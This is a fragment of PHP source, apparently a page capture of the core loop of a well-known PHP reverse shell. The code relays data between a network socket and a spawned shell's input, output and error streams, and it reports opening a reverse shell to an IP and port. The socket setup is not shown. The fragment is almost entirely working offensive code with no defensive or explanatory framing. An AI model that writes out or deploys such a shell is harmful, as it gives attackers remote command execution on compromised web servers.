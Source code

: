 ```php

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```